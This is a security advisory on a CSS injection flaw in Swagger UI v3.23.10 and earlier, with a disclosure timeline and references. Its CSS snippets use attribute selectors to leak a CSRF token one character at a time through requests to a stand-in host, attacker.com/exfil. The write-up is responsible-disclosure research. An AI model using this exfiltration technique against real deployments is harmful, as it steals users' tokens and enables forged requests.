


# CSS-injection-in-Swagger-UI

We have found a CSS Injection vulnerability on Swagger UI that allows attacker to use the Relative Path Overwrite (RPO) [1][2] technique to perform CSS-based input field value exfiltration. In our PoC, we were able to successfully steal the CSRF token value.

**Researcher: Kevin (DatLP) of The Tarantula Team, VinCSS (a member of Vingroup)**

## What is Swagger UI

Swagger UI allows anyone — be it your development team or your end consumers — to visualize and interact with the API’s resources without having any of the implementation logic in place. It’s automatically generated from your OpenAPI (formerly known as Swagger) Specification, with the visual documentation making it easy for back end implementation and client side consumption.

## Background

We've discovered the vulnerability when reading the following in the document of Swagger [3]:

```
We’ve observed that the ?url= parameter in SwaggerUI allows an aacker to override an otherwise hard‐coded schema file
The decision was made to put this in the public issue tracker because (a) we aren’t going to immediately fix this, and (b) the aack surface for this is significantly diminished by our effecve sanizaon efforts to deter XSS aacks in documents used as input.
```
Swagger had known the issue, but Swagger thought that this vulnerability could not lead to an Cross-Site Scripting (XSS) exploit, so they ignored it. So we have decided to further research on this issue. 

### Injection step:

We realize that Swagger UI allows users to embed untrusted Json format from remote servers 

```javascript
var url = window.location.search.match(/url=([^&]+)/);
// ...
url = options.swaggerUrl || url
// ...
var swaggerOptions = {
    spec: spec1,
url: url, // ...
}
var ui = SwaggerUIBundle(swaggerOptions)
```

This means we can inject json content via the GET parameter to victim Swagger UI. In the json content we use the <style> tag and CSS @import rule to load the CSS payload:
    

    
### Exfiltration step:

With CSS payload, we can use Relative Path Overwrite (RPO) technique to perform CSS-based input field value exfiltration [4]. The following CSS code will generate a callback query to the attacker's server (https://attacker.com/exfil/a) if the CSRF token value starts with the character a, similarly it will make other requests (https://attacker.com/exfil/b; https://attacker.com/exfil/c; https://attacker.com/exfil/d, etc) if the CSRF token value begins with character b, character c or character d. Continue to try in turn for each character in range A-Z and range 0-9 until we found the first character in the CSRF token value:

```css
input[name=csrf][value^=a]{
    background-image: url(https://attacker.com/exfil/a);
}
input[name=csrf][value^=b]{
    background-image: url(https://attacker.com/exfil/b);
}
...
input[name=csrf][value^=9]{
    background-image: url(https://attacker.com/exfil/9);
```
And after we have found the first character in the CSRF token value, we will continue to search for the second character and so on:

```css
input[name=csrf][value^=aa]{
    background-image: url(https://attacker.com/exfil/ca);
}
input[name=csrf][value^=ab]{
    background-image: url(https://attacker.com/exfil/cb);
}
 ...
input[name=csrf][value^=a9]{
    background-image: url(https://attacker.com/exfil/c9);
```

With sequential @import chaining as below so we can steal full of CSRF token value:


You can automate all of step by using the [sic](https://github.com/d0nutptr/sic) tool [5]

And we got the following result:



    
## Tested versions

Swagger UI v3.23.10 and older versions

## Disclosure timeline

- September 17, 2019: Report and discuss with maintainer for Swagger UI.
- September 20, 2019: Ask maintainer for vulnerability disclosure.
- September 21, 2019: Swagger UI has released a new version that has addressed the vulnerability.
- September 21, 2019: Get approval from maintainer for disclosure on October 6, 2019.


## Reference

1. [RPO](http://www.thespanner.co.uk/2014/03/21/rpo/)
2. [Detecting and exploiting path‐relative stylesheet import (PRSSI) vulnerabilities | PortSwigger Research](https://portswigger.net/research/detecting-and-exploiting-path-relative-stylesheet-import-prssi-vulnerabilities)
3. [Swagger UI | API Development Tools | Swagger](https://swagger.io/tools/swagger-ui/)
4. [Exfiltration via CSS Injection](https://medium.com/bugbountywriteup/exfiltration-via-css-injection-4e999f63097d)
5. [GitHub ‐ d0nutptr/sic: A tool to perform Sequential Import Chaining](https://github.com/d0nutptr/sic)
6. [Attribute selectors](https://developer.mozilla.org/en-US/docs/Web/CSS/Attribute_selectors)
7. [Better Exfiltration via HTML Injection ‐ d0nut ‐ Medium](https://medium.com/@d0nut/better-exfiltration-via-html-injection-31c72a2dae8b)
8. [2019‐s3_css_injection_attacks.pdf](https://vwzq.net/slides/2019-s3_css_injection_attacks.pdf)
9. [RPO Gadgets](https://blog.innerht.ml/rpo-gadgets/)
10. [add an `enableQueryConfig` option issue #4872](https://github.com/swagger-api/swagger-ui/issues/4872)
11. [mitigate "sequential @import chaining" vulnerability issue #5616 ](https://github.com/swagger-api/swagger-ui/pull/5616)
12. [Swagger UI 3.23.11 Released! This release contains a security fix that addresses a CSS-based input field value exfiltration vulnerability](https://github.com/swagger-api/swagger-ui/releases/tag/v3.23.11)


